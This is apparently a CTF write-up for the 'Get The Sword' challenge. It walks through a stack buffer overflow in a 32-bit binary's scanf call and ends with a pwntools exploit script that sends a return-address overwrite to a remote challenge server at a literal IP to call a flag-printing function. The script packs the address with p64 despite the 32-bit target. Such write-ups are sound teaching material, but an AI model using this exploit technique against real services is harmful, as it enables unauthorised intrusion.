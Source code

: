 # Get The Sword (100 pts)

![get the sword](img/get-the-sword.png)

Download link: [https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view](https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view)

First, I run `file` and `checksec` commands to check the file type as well as some information about the file. And I noticed that this is a 32-bit program

![32bit](img/get-the-sword-32bit.png)

Next, I run this file to know the flow of the program. This is a simple program that lets us type anything to "get the sword" (= flag)

![test](img/get-the-sword-test.png)

After that, I used **[Ghidra](https://github.com/NationalSecurityAgency/ghidra)** to generate pseudo code and analyze it

As you can see in the image below, there are 4 functions that we may focus on, especially `main` and `getSword`:

![function](img/get-the-sword-functions.png)

Let's take a look at the `main` function:

```c
//main

undefined4 main(void)

{
  printSword();
  intro();
  return 0;
}
```

We see that it calls the `printSword` function, which will print an ASCII sword to the terminal as I tested above. It also calls `intro` function:

```c
//intro

void intro(void)

{
  undefined local_20 [24];
  
  printf("What do you want ? ?: ");
  fflush(_stdout);
  __isoc99_scanf(&DAT_0804a08c,local_20);
  printf("You want, %s\n",local_20);
  return;
}
```

The `intro` function allows input of up to 24 characters and prints it to the terminal. But, it uses `scanf`, which means we can input more than 24 characters to execute Stack Overflow vulnerability

The last function is `getSword()`:

```c
//getSword

void getSword(void)

{
  system("cat flag.txt");
  fflush(_stdout);
  return;
}
```

The `getSword()` function makes the challenge easier because our mission now is just to find a way to call it and we will get the flag

![It's Hacking Time](https://i.imgur.com/kuFQ3u9.jpg)

First, we need to overflow the buffer by filling it with 24 characters

```sh
python -c "print('A'*24)" | ./get_sword
```

But I don't see the `Segmentation Fault` here, so I'll continue to test some values until I reach it (it's **28** characters)

![28 chars](img/get-the-sword-28.png)

We can then add 4 more bytes to overflow the EBP register

```sh
python -c "print('A'*32)" | ./get_sword
```

Finally, by adding the address of the `getSword()` function, we can call it and retrieve the flag

You can use **[gdb](https://github.com/hugsy/gef)** to get the address of the `getSword()` function or use **pwntools** to find it faster.

This is the exploit script:

```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./get_sword")
io = remote("173.255.201.51", 31337)
io.sendline(b'\x90'*32 + p64(elf.sym['getSword']))
io.interactive()
io.close()
```

![flag](img/get-the-sword-flag.png)

`Flag: KCTF{so_you_g0t_the_sw0rd}`

**Notes:** `\x90` is called NOPs. To read more about NOPs, click [here](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/nops.md)
